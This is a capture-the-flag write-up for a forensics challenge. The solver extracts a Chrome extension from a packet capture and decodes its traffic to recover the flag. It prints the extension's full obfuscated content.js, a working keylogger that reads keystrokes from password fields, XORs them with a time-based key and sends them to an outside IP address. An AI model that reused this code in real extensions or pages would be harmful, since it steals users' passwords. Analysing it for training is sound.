

# x-tension

```
by FIREPONY57
Description

Trying to get good at something while watching youtube isn't the greatest idea...
Attachments

chal.pcapng
```

Open the downloaded pcap file in wireshark, ignore any QUIC requests, filter by HTTP:



We found a `.crx` chrome extension and several HTTP requests. Extract the extension:

```shell
$ binwalk -e temp.crx

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
593           0x251           Zip archive data, at least v3.0 to extract, compressed size: 934, uncompressed size: 2137, name: content.js
1587          0x633           Zip archive data, at least v3.0 to extract, compressed size: 203, uncompressed size: 372, name: manifest.json
```

We got a content.js:

```js
function _0x1e75() {
  const _0x598b78 = [
    '940KLmqcF',     '45092jwiXkN', 'fromCharCode', 'addEventListener',
    'padStart',      '973KXuPbI',   '28240VWxZRs',  '3112764XnXYDi',
    'toString',      '44frdLyF',    '814942lZkvEV', '21078OiMojE',
    'getUTCMinutes', 'key',         'target',       '927aCoiKZ',
    '551255yJTaff',  'type',        '117711JQghmv', 'keydown',
    'charCodeAt',    'length'
  ];
  _0x1e75 = function() { return _0x598b78; };
  return _0x1e75();
}
const _0x421cd8 = _0x16e0;
function _0x16e0(_0x3b1337, _0x4a4a90) {
  const _0x1e75a5 = _0x1e75();
  return _0x16e0 = function(_0x16e0f9, _0x124fc6) {
    _0x16e0f9 = _0x16e0f9 - 0xac;
    let _0x20d287 = _0x1e75a5[_0x16e0f9];
    return _0x20d287;
  }, _0x16e0(_0x3b1337, _0x4a4a90);
}
(function(_0x4db7df, _0x152423) {
const _0x419a6d = _0x16e0, _0x528a3a = _0x4db7df();
while (!![]) {
  try {
    const _0x3bd5a6 =
        -parseInt(_0x419a6d(0xac)) / 0x1 + parseInt(_0x419a6d(0xb9)) / 0x2 +
        parseInt(_0x419a6d(0xbf)) / 0x3 +
        parseInt(_0x419a6d(0xc1)) / 0x4 * (-parseInt(_0x419a6d(0xb2)) / 0x5) +
        parseInt(_0x419a6d(0xad)) / 0x6 * (parseInt(_0x419a6d(0xbd)) / 0x7) +
        parseInt(_0x419a6d(0xbe)) / 0x8 * (parseInt(_0x419a6d(0xb1)) / 0x9) +
        -parseInt(_0x419a6d(0xb8)) / 0xa * (-parseInt(_0x419a6d(0xb4)) / 0xb);
    if (_0x3bd5a6 === _0x152423)
      break;
    else
      _0x528a3a['push'](_0x528a3a['shift']());
  } catch (_0x14838d) {
    _0x528a3a['push'](_0x528a3a['shift']());
  }
}
}(_0x1e75, 0xd956e));
function getKey() {
  const _0x5a2d05 = _0x16e0, _0x3733b8 = new Date()[_0x5a2d05(0xae)]();
  return String[_0x5a2d05(0xba)](_0x3733b8 + 0x20);
}
function xorEncrypt(_0x2d1e8c, _0x3beac1) {
  const _0x404414 = _0x16e0;
  let _0x406d63 = '';
  for (let _0x58a85f = 0x0; _0x58a85f < _0x2d1e8c[_0x404414(0xb7)];
       _0x58a85f++) {
    const _0x384e0a = _0x2d1e8c[_0x404414(0xb6)](_0x58a85f),
          _0x4250be = _0x3beac1['charCodeAt'](0x0),
          _0x4df57c = _0x384e0a ^ _0x4250be;
    _0x406d63 += _0x4df57c[_0x404414(0xc0)](0x10)[_0x404414(0xbc)](0x2, '0');
  }
  return _0x406d63;
}
document[_0x421cd8(0xbb)](_0x421cd8(0xb5), _0x4e7994 => {
  const _0x39d3e2 = _0x421cd8, _0x260e7d = _0x4e7994[_0x39d3e2(0xb0)];
  if (_0x260e7d[_0x39d3e2(0xb3)] === 'password') {
    const _0x2c5a17 = _0x4e7994[_0x39d3e2(0xaf)][_0x39d3e2(0xb7)] === 0x1
                          ? _0x4e7994[_0x39d3e2(0xaf)]
                          : '',
          _0x5e96ad = getKey(), _0x5a4007 = xorEncrypt(_0x2c5a17, _0x5e96ad),
          _0x3a36f2 = encodeURIComponent(_0x5a4007);
    _0x2c5a17 && fetch('http://192.9.137.137:42552/?t=' + _0x3a36f2);
  }
});
```

Reading the last part:

```js
document[_0x421cd8(0xbb)](_0x421cd8(0xb5), _0x4e7994 => {
  const _0x39d3e2 = _0x421cd8, _0x260e7d = _0x4e7994[_0x39d3e2(0xb0)];
  if (_0x260e7d[_0x39d3e2(0xb3)] === 'password') {
    const _0x2c5a17 = _0x4e7994[_0x39d3e2(0xaf)][_0x39d3e2(0xb7)] === 0x1
                          ? _0x4e7994[_0x39d3e2(0xaf)]
                          : '',
          _0x5e96ad = getKey(), _0x5a4007 = xorEncrypt(_0x2c5a17, _0x5e96ad),
          _0x3a36f2 = encodeURIComponent(_0x5a4007);
    _0x2c5a17 && fetch('http://192.9.137.137:42552/?t=' + _0x3a36f2);
  }
});
```

It xors the password with some key and sends it to the server. The key is computed from `new Date()`, so we need to find the key. The encrypted data can be found in the pcap.

Since we know that the flag starts with `i`, we can find the key by xor-ing the first byte of encrypted data and `i`:

```python
>>> bytes([b ^ 0x5e ^ ord("i") for b in bytes.fromhex("5e5443514c524f435259445e585944685a5e505f43685d424443684442545c4a")])
b'ictf{extensions_might_just_suck}'
```

Flag: `ictf{extensions_might_just_suck}`.
